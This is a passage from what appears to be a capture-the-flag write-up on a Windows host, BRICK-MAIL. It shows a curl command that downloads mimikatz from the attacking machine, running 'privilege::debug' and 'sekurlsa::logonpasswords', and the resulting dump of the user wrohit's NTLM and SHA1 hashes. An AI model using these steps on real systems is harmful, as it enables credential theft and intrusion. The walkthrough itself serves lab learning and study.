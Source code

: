 ```shell
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

We see that we have **administrators privileges** and **SeDebugPrivilege** which is important for what comes next. 

As an administrator on a Windows machine, we can try to dump some credentials that could be in the memory using **mimikatz**. 

So we transfer **mimikatz** from  the attacking machine to the target :

```shell
#On the attacking machine
$ python3 -m http.server 444

#On the target
curl http://IP:444/mimikatz.exe > mimikatz.exe
```

We launch it and put into **debug privileges** to access sensitive memory regions.

```shell
C:\Users\wrohit\Documents>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK
```

In order to dump plaintext passwords, NTLM hashes or Kerberos tickets of logged-in users, we use this command and manage to find the password of **wrohit** :

```shell
mimikatz # sekurlsa::logonpasswords

[...]

Authentication Id : 0 ; 1243886 (00000000:0012faee)
Session           : Batch from 0
User Name         : wrohit
Domain            : BRICK-MAIL
Logon Server      : BRICK-MAIL
Logon Time        : 3/29/2025 3:10:09 PM
SID               : S-1-5-21-1966530601-3185510712-10604624-1014
        msv :
         [00000003] Primary
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * NTLM     : 8458995f1d0a4b0c107fb8e23362c814
         * SHA1     : ab5cc88336e18e54db987c44088757702d3a4c0f
        tspkg :
        wdigest :
```